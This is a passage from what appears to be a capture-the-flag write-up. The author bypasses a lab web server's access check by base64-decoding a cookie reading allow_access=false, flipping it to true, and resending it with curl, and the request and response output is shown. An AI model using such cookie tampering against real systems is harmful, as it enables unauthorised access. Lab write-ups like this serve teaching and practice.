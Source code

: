 ```
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host 192.81.210.234 left intact
```

As shown above, the web responded with a `Set-Cookie` header, which is the way for the server to send cookies to the client. I repeated the request, but now with the given cookie attached:

```
 curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPWZhbHNl" -v
```

And here's the response.

```
*   Trying 192.81.210.234...
* TCP_NODELAY set
* Connected to 192.81.210.234 (192.81.210.234) port 10005 (#0)
> POST / HTTP/1.1
> Host: 192.81.210.234:10005
> User-Agent: curl/7.58.0
> Accept: */*
> Cookie: identify=YWxsb3dfYWNjZXNzPWZhbHNl
>
< HTTP/1.1 200 OK
< Date: Thu, 04 Jun 2020 09:29:08 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.6
< X-Note: Your access has not been allowed. Please try again later.
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host 192.81.210.234 left intact
```

I noticed that among the headers there is an `X-Note` header (which seems to be a custom HTTP header) that says "**Your access has not been allowed. Please try again later.**". 

In pursuit of allowing myself to the server, I examined the value of the cookie and found out that it was *base64-encoded*. 

![053c6cf25c41af2165b7f288619b699f.png](/assets/images/05a05c47083e44569938fbaee856460e.png)

I decoded the cookie and found this:

![caa5a9f746c5292c3509ab48478114be.png](/assets/images/3d7a0dfdadac48b0a4ac124883354d26.png)

So I modified the value into `allow_access=true`, encoded it back into *base64* string, and send it again to the server.

```
 curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPXRydWU=" -v
```
